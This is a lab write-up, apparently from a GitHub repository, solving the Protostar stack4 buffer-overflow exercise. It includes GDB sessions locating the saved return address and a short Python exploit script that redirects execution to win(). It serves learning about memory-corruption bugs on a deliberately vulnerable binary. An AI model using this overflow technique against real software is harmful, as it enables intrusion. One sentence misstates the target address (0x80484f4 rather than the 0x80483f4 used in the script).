 # Stack4 Solution

## C Code

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

* A variety of introductory papers into buffer overflows may help.
* gdb lets you do `run < input`
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```


## Return Address

Now, we are given the **same task as** [stack3](https://github.com/Naksh-Rathore/protostar-solutions/tree/main/stack3), only with **no function pointer**.
You may be wondering, how do we do this. The way to do it is by using something called a **return address**. A return address is a **value pushed onto the stack** 
that **tells the program where to resume execution** (the next instruction) after a **function call completes**. At the end of a function call, a `ret` **instruction is
always placed at the end**. What the `ret` instruction does is **change EIP to the return address**, then **pop the return address** off of the stack.

## Vulnerability

*Again*, you may be asking how do we use this to go the the `win()` function. The answer lies in **overflowing the stack values by means of** `gets()` (which is vulnerable to buffer overflows) **until we reach the return address, then
changing it**. But one of the hints were that **EIP (Return Address) is not directly after the end of buffer because of padding and compiler optimizations**. 

## Stack Visualization

Here is a **visual** of the stack

```
[ Buffer (64 bytes) ]
[ Saved EBP (4 bytes) ]
[ Return Address (4 bytes) ]
[ Other Stuff ]
```

Remember, the byte amount can **shift** due to compiler optimizations, stack misalignments, and padding.

## Exploit

Ok, so now we have a **rough idea**, let's get our padding sizing and memory addresses.

First, let's throw a **long string** at the binary in GDB.

To do that, **disassemble** `main()` and set a breakpoint at the `ret` instruction.

```bash
user@protostar:/opt/protostar/bin$ gdb stack4
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) break *main+22
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) 
```

Now that we have **our breakpoints set**, let's **run it** and provide `QQQQWWWWEEEERRRRTTTTYYYY....` as input. After that, let's check out all of our registers to see **what letter overwritten EBP**.

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack4 
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x4c4c4c54
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) info registers
eax            0xbffff760       -1073744032
ecx            0xbffff760       -1073744032
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7ac       0xbffff7ac
ebp            0x4c4c4c4c       0x4c4c4c4c
esi            0x0      0
edi            0x0      0
eip            0x804841e        0x804841e <main+22>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

Now, **we see that EBP was overwritten** to `0x4c4c4c4c`, which is `LLLL` in ASCII. That means to **overwrite the return address**, we need to **first pass** `QQQQWWWWEEEERRRRTTTTYYYY...` until `LLLL`. Then, we can **overwrite the return address with anything we want** by just **appending it to the end** of the string.

```bash
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
(gdb) 
```

Once we continue (`c`), we see that the **return address got overwritten** to `0x5a5a5a5a` (`ZZZZ`) because the **program tried to go to that memory address** which is of course **illegal**. That **checks out** with the EBP overwrite because `ZZZZ` was **right after** `LLLL` in the input string, which **matches up perfectly with our stack visual** from earlier. 

So now we need to get the **memory address** of the `win()` function. Do to that, we use the `p` command in GDB to **print the value of whatever comes after it**.

```bash
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
(gdb) 
```

We see that the **memory address** of `win()` is `0x80483f4`. Now we have *everything* needed to **create our exploit script**.

To **create our exploit script**, we first need to pass `QQQWWWWEEEERRRRTTTTYYYY...` until `LLLL`, then pass `0x80484f4` in **little-edian** to properly **overwrite the return address** and **jump to** the `win()` function to complete the challenge!

Here is the exploit script stored in `/tmp`:

```python
import struct

padding = "QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKK"
ebp = "LLLL"
win_func = struct.pack("I", 0x80483f4)

print(padding + ebp + win_func)
```

Now enter this:

```bash
python /tmp/exploit.py | /opt/protostar/bin/stack4
```

Result:

```bash
code flow successfully changed
Segmentation fault (core dumped)
```

The **segfault** at the end is because we **overwritten the saved EBP** to an invalid address (`0x4c4c4c4c`).

## Resources

* [C Code](https://exploit.education/protostar/stack-four/)
* [Geeks for Geeks Article on Return Addresses](https://www.geeksforgeeks.org/dsa/how-is-return-address-specified-in-stack/)




